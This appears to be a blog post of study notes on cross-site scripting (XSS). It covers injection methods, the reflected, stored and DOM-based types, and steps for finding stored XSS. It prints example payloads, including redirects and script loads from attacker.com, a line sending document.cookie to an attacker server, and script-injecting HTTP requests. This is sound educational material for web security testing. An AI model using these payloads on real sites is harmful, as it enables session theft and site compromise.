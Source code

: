 ```yaml
---
layout: post
title: CROSS-SITE SCRIPTING (XSS)
date: 2023-07-17
categories: [cybersecurity, web-security,Bug_Bounty_Bootcamp_The_Guide_to_Finding_and_Reporting_Web_Vulnerabilities,XSS ]
---
```



# Chapter 6 : CROSS-SITE SCRIPTING

An XSS vulnerability occurs when attackers can execute custom scripts on a victim's browser. If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by other users. The victim's browser will then execute the malicious script, which might steal cookies, leak personal information, change site contents, or redirect the user to a malicious site. These malicious scripts are often JavaScript code but can also be HTML, Flash, VBScript, or anything written in a language that the browser can execute.

# XSS Injection Methods

There are different ways that attackers can inject malicious code into web pages, such as:

1. Inline script injection: The attacker inserts a `<script>` tag with the code directly into the web page. For example: 
```html
<script>location = "http://attacker.com";</script>
```

2. External script source injection: The attacker uses the `src` attribute of the `<script>` tag to load the code from an external source. For example: `<script src="http://attacker.com/xss.js"></script>`.

3. Malicious URL injection: The attacker crafts a URL that contains the code as a parameter and tricks the user into visiting it. For example: `https://subscribe.example.com?email=<script>location="http://attacker.com";</script>`.

4. Stealing user cookies: The attacker uses the `document.cookie` property to access and send the user’s cookies to a malicious server. For example: `<script>image = new Image(); image.src='http://attacker_server_ip/?c='+document.cookie;</script>`.

# Types of XSS

There are three main types of XSS attacks:

- Reflected XSS: The attacker’s code is sent as part of the user’s request and reflected back by the server in the response. The user has to click on a malicious link or visit a malicious site to trigger the attack.
- Stored XSS: The attacker’s code is stored on the server, such as in a database, a comment field, or a profile. The user views the affected web page and executes the code without any interaction.
- DOM-based XSS: The attacker’s code is executed in the user’s browser by manipulating the DOM (Document Object Model) of the web page. The code never leaves the browser and does not involve the server.

## What is Stored Cross-Site Scripting?

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

### Example Scenario on how Stored XSS Works

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
```html
<p>This post was extremely helpful.</p>
```
### what an Attack can do 
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
```html
<script>/* Bad stuff here... */</script>
```
Within the attacker's request, this comment would be URL-encoded as:
`comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
`
Any user who visits the blog post will now receive the following within the application's response:

```html
<p><script>/* Bad stuff here... */</script></p>
```
## Finding Stored XSS Vulnerabilities

To find stored XSS vulnerabilities, you need to `test all relevant entry points and exit points` in the application. `Entry points are where the attacker can submit data to the application, such as URL parameters, form inputs, or HTTP headers.` `Exit points are where the data is displayed to other users, such as web pages, emails, or logs.`

1. **Identify Entry and Exit Points:**
   Entry points are areas where users can input data, and exit points are places where that data is displayed to others. For example, consider a blog post comment feature, where users can input comments, and those comments are displayed on the blog post page.

2. **Test Links Between Points:**
   Submit specific values to the entry points and observe the application's responses. For example, submit the comment "test123" and see if it appears on the blog post page. If the comment is visible, proceed to the next step.

3. **Check Data Storage:**
   Determine if the data is stored on the server or just reflected in the immediate response. Suppose the application stores the comment data in a database, and when the blog post page is accessed, it retrieves and displays the stored comments.

4. **Test XSS Payloads:**
   Inject suitable XSS payloads into each context where the data appears. For example, try injecting the script tag `<script>alert('XSS')</script>` into the comment. If the script executes on the browser when displayed within an HTML context, it indicates a stored XSS vulnerability.


### Entry Point to application can be like : 
   
- `Parameters in the URL Query String and Message Body`:

In a web application, there might be a `search` functionality that allows users to search for products using the URL query string. For example: https://example.com/search?keyword=user_input, where `user_input` is the search term provided by the user. If the application doesn't properly validate and sanitize this input, it becomes vulnerable to XSS attacks. An attacker could inject malicious scripts, like <script>alert('XSS');</script>, into the search term. If the application reflects this input back to other users without proper encoding, the script could execute in their browsers.

- The URL File Path:

Suppose a web application serves different pages based on the URL file path, like https://example.com/pages/page1.html, where page1.html represents a specific page on the website. If the application fails to handle the file path securely, an attacker could manipulate it and attempt to inject scripts. For example, an attacker might try to access a non-existing page like `https://example.com/pages/<script>alert('XSS');</script>`, hoping the application reflects the input in the response and triggers an XSS vulnerability.

- HTTP Request Headers:

Although HTTP request headers are not typically exploited for `reflected XSS`, they can be entry points for other types of attacks or security issues. For instance, an application might rely on a custom request header for authentication or session management. If the application doesn't validate and handle these headers securely, attackers might manipulate them to gain unauthorized access or perform malicious actions.
for a website that allow user to insert comment the http request would be like this : 
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

comment=<script>alert('XSS Attack!')</script>&name=Attacker
```
In above example, attacker is trying to inject script into server side code which will execute when page loads

- Out-of-Band Routes:

Consider a web application that aggregates news articles from external websites. The application processes and displays these articles on its platform. If the application fails to sanitize data received from external sources, an attacker could inject malicious content into these articles. For instance, the attacker might compromise an external news source and inject a malicious script into one of the articles. When the web application displays this article to its users, it unknowingly executes the malicious script, leading to an XSS attack.

Suppose the application displays the article content within an HTML element like this:

```html
<div class="article-content">
  [Article Content Goes Here]
</div>
```
The attacker identifies an external website that the vulnerable application fetches articles from and finds a way to inject a malicious script into the article content on that website.
- Attacker injects a malicious script on an external website
- The vulnerable application fetches and displays the article
- XSS Attack Execution

